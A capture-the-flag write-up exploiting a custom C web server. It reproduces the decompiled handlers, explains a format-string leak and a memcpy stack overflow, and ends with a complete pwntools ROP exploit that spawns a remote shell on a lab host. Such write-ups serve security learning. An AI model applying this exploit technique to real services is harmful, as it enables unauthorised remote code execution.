


## Description

	Oh, Apache and NGINX are so slow; I just coded my own Web Server, which is much faster and more secure. The Blizzard Web Server Brrrrr!”

### Security Mitigations

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
#### Disassembling the binary there is the following functions:

#### Main

```C
undefined8 main(void)

{
  int iVar1;
  undefined local_448 [1023];
  undefined local_49;
  socklen_t local_3c;
  sockaddr local_38;
  sockaddr local_28;
  int local_10;
  int local_c;
  
  local_c = socket(2,1,0);
  if (local_c == -1) {
    perror("Socket creation failed");
  }
  else {
    local_28.sa_family = 2;
    local_28.sa_data._0_2_ = htons(0x15b3);
    local_28.sa_data[2] = '\0';
    local_28.sa_data[3] = '\0';
    local_28.sa_data[4] = '\0';
    local_28.sa_data[5] = '\0';
    iVar1 = bind(local_c,&local_28,0x10);
    if (iVar1 == -1) {
      perror("Bind failed");
    }
    else {
      iVar1 = listen(local_c,10);
      if (iVar1 == -1) {
        perror("Listen failed");
      }
      else {
        printf("Server running on http://localhost:%d\n",0x15b3);
        while( true ) {
          local_3c = 0x10;
          local_10 = accept(local_c,&local_38,&local_3c);
          if (local_10 == -1) break;
          read(local_10,local_448,0x3ff);
          local_49 = 0;
          handle_request(local_10,local_448);
          close(local_10);
        }
        perror("Accept failed");
      }
    }
  }
  return 1;
}
```

#### handle_request

```C
void handle_request(int param_1,char *param_2)

{
  int iVar1;
  char *__s1;
  char *pcVar2;
  void *__buf;
  
  __s1 = strtok(param_2," \t\r\n");
  pcVar2 = strtok((char *)0x0," \t\r\n");
  strtok((char *)0x0," \t\r\n");
  iVar1 = strcmp(__s1,"GET");
  if (iVar1 == 0) {
    handle_get_request(param_1);
  }
  else {
    iVar1 = strcmp(__s1,"DEBUG");
    if (iVar1 == 0) {
      handle_debug_request(param_1,pcVar2);
    }
    else {
      iVar1 = strcmp(__s1,"POST");
      if (iVar1 == 0) {
        __buf = malloc(0x400);
        read(param_1,__buf,0x400);
        *(undefined *)((long)__buf + 0x400) = 0;
        handle_post_request(param_1,pcVar2);
        free(__buf);
      }
      else {
        printf("blizzarddddddd");
      }
    }
  }
  return;
```

#### handle_get_request

```C
void handle_get_request(int param_1)

{
  size_t __n;
  undefined local_828 [1024];
  char local_428 [1032];
  size_t local_20;
  long local_18;
  FILE *local_10;
  
  local_10 = fopen("index.html","r");
  if (local_10 == (FILE *)0x0) {
    perror("Failed to open file");
  }
  else {
    fseek(local_10,0,2);
    local_18 = ftell(local_10);
    rewind(local_10);
    snprintf(local_428,0x400,"HTTP/1.1 200 OK\nContent-Type: text/html\nContent-Length: %ld\n\n",
             local_18);
    __n = strlen(local_428);
    write(param_1,local_428,__n);
    while( true ) {
      local_20 = fread(local_828,1,0x400,local_10);
      if (local_20 == 0) break;
      write(param_1,local_828,local_20);
    }
    fclose(local_10);
  }
  return;
}
```

#### handle_post_request

```C
void handle_post_request(undefined8 param_1,void *param_2)

{
  undefined local_18 [16];
  
  memcpy(local_18,param_2,0x400);
  return;
}
```

#### handle_debug_request

```C
void handle_debug_request(int param_1,char *param_2)

{
  size_t __n;
  char local_408 [42];
  undefined local_3de;
  
  if (param_2 == (char *)0x0) {
    write(param_1,"Socket Connection Error",0x16);
  }
  else {
    sprintf(local_408,param_2);
    local_3de = 0;
    __n = strlen(local_408);
    write(param_1,local_408,__n);
  }
  return;
}
```

#### The two vulnerabilities that allow for remote code execution exist in handle_debug_request() and handle_post_request(). First handle_debug_request() passes the user input to sprintf() as the format string allowing us to leak data. Second handle_post_request() uses memcpy() to copy our user controlled 0x3ff byte buffer into a 16 byte buffer causing a stack buffer overflow. 

#### Our exploit plan will be:

	- Leak stack and PIE addresses via the format string in handle_debug_request()
	- Use the stack buffer overflow in handle_post_request() to write a ROP chain onto the stack.


#### By leaking a few addresses with the format string we can find a stack address at offset 1 and PIE at offset 3.



#### To get our PIE offset we can read the mappings for our process and subtract the PIE base from our leak. To get the offset from our stack leak to our POST buffer we can attach GDB to the SlowServer process, break on the memcpy() call, and examine the registers.

#### Now that we have the required leaks we can find the required gadgets for our exploit. 

#### We use the following gadgets in our exploit:

```
pop rax; ret;
pop rbp; ret;
pop rsi; ret;
pop rdi; xor rdi, rbp; ret;
syscall; ret;
pop rdx; pop r12; ret;
```

#### Since we are communicating with this program over a non standard file descriptor (4) we will need to duplicate stdin and stdout before executing a shell so that we can interact with it. Our ROP chain will be as follows:

```
pop rbp; ret;              # Place 0 in rbp so xor rdi, rbp doesnt effect rdi

# dup2(4, 0)
pop rdi; xor rdi, rbp; ret; # Place 4 in rdi (our file descriptor)
pop rsi; ret;               # Place 0 in rsi (stdin file descriptor)
pop rax; ret;               # Place 33 in rax (syscall for dup2)
syscall; ret;

# dup2(4, 1)
pop rdi; xor rdi, rbp; ret; # Place 4 in rdi (our file descriptor)
pop rsi; ret;               # Place 1 in rsi (stdout file descriptor)
pop rax; ret;               # Place 33 in rax (syscall for dup2)
syscall; ret;

# execve("/binsh", 0, 0)
pop rdi; xor rdi, rbp; ret; # Place a pointer to our buffer that contains "/bin/sh" string in rdi
pop rsi; ret;               # Place 0 in rsi
pop rdx; pop 12; ret;       # Place 0 in rdx and place junk value in r12
pop rax; ret;               # Place 59 in rax (syscall for execve)
syscall; ret;
```

#### Putting this all together allows us to obtain a shell on the target.




### Full Exploit

```python
from pwn import *

context.binary = binary = ELF('./slowserver',checksec=False)

#p = remote('localhost', 5555)
p = remote('10.10.87.161', 5555)

p.sendline(b'DEBUG %p|%3$p')

leaks = p.recvrepeat(1).decode().strip().split('|')

stack_leak = int(leaks[0], 16)
buf = stack_leak - 0x66

info(f'stack leak: {hex(stack_leak)}')
info(f'buf: {hex(buf)}')

pie_leak = int(leaks[1], 16)
binary.address = pie_leak - 0x2080

info(f'pie leak: {hex(pie_leak)}')
info(f'pie base: {hex(binary.address)}')

p.close()

rop = ROP(binary)

syscall = p64(rop.find_gadget(['syscall','ret'])[0])
pop_rax = p64(rop.find_gadget(['pop rax','ret'])[0])
pop_rsi = p64(rop.find_gadget(['pop rsi','ret'])[0])
pop_rbp = p64(rop.find_gadget(['pop rbp','ret'])[0])
ret = p64(rop.find_gadget(['ret'])[0])

pop_rdi_xor_rdi = p64(binary.address+0x1816)
pop_rdx_pop_r12 = p64(binary.address+0x180d)

ropchain = b'/bin/sh\x00'
ropchain += b'A' * (24 - len(ropchain))
ropchain += pop_rbp
ropchain += p64(0)
ropchain += pop_rdi_xor_rdi
ropchain += p64(4)
ropchain += pop_rsi
ropchain += p64(0)
ropchain += pop_rax
ropchain += p64(33)
ropchain += syscall
ropchain += pop_rdi_xor_rdi
ropchain += p64(4)
ropchain += pop_rsi
ropchain += p64(1)
ropchain += pop_rax
ropchain += p64(33)
ropchain += syscall
ropchain += pop_rdi_xor_rdi
ropchain += p64(buf)
ropchain += pop_rsi
ropchain += p64(0)
ropchain += pop_rdx_pop_r12
ropchain += p64(0)
ropchain += p64(0)
ropchain += pop_rax
ropchain += p64(59)
ropchain += syscall

#p = remote('localhost', 5555)
p = remote('10.10.87.161', 5555)

p.sendline(b'POST ' + ropchain)

p.recvrepeat(1)
p.sendline()

p.interactive()
```
